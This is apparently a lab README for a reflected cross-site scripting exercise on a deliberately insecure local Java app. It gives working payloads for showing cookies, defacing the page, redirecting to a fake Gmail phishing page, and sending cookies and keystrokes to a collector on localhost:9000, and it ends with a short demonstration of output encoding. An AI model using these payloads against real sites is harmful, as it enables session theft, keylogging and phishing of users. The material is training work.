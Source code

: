 ### Reflected XSS
---

>This lab exercise is for understanding various XSS attacks. 

#### **Lab Image : ReflectedXSS**

## Attack

* Step 1: Open browser and go to url

    ```
    http://localhost
    ```

    > **Note:** Replace `localhost` with your server url

* Step 2: Change to directory 

    ```
    cd /root/reflected-xss
    ```

* Step 3: Build the project

    ```
    mvn package
    ```

* Step 4: Now start the app

    ```
    docker-compose up 
    ```

* Step 5: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/insecure
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 6: Perform a normal activity

    ```
    http://localhost:8888/ReflectedXSS/insecure?name=IronMan
    ```
    

* Step 7: Try these payloads to perform a XSS attack
    

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure?name=<script>alert(document.cookie)</script>
        ```            


    * To deface a website
      
        ```
        http://localhost:8888/ReflectedXSS/insecure?name=%3Cscript%3Edocument.body.innerHTML%3D%22%3Ch1%3EYou%20have%20been%20hacked%3C%2Fh1%3E%3Cimg%20src%3D'https%3A%2F%2Fimages.fineartamerica.com%2Fimages%2Fartworkimages%2Fmediumlarge%2F2%2Fheath-ledger-joker-portrait-madura-venkatachalam.jpg'%2F%3E%22%3C%2Fscript%3E
        ```
            
        
    * To perform phishing
    
        ```
        http://localhost:8888/ReflectedXSS/insecure?name=<script>window.location="http://localhost:9000/gmail.html"</script>
        ```
    
    * To steal cookie
    
        ```
        http://localhost:8888/ReflectedXSS/insecure?name=%3Cscript%3Evar%20a%3Dnew%20XMLHttpRequest()%3Ba.open(%22GET%22%2C%22http%3A%2F%2Flocalhost%3A9000%2F%3Fdomain%3D%22%2Bdocument.cookie)%3Ba.send()%3B%3C%2Fscript%3E
        ```
        
    * To Perform keylogging
​    
        ```
        http://localhost:8888/ReflectedXSS/insecure?name=%3Cscript%3E%0Adocument.addEventListener(%22keyup%22%2C%20function(e)%7B%0A%09var%20x%20%3D%20new%20XMLHttpRequest()%3B%0A%09var%20url%20%3D%20%22http%3A%2F%2Flocalhost%3A9000%3F%22%2Be.key%0A%09x.open(%22GET%22%2Curl%20%2C%20true)%3B%0A%09x.send()%3B%0A%7D)%3B%0A%3C%2Fscript%3E
        ```
## Defend

* Step 1: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/secure
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 2: Try these payloads to perform various XSS attacks

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure?name=<script>alert(document.cookie)</script>
        ```
        

    This should encoded and should render as normal html
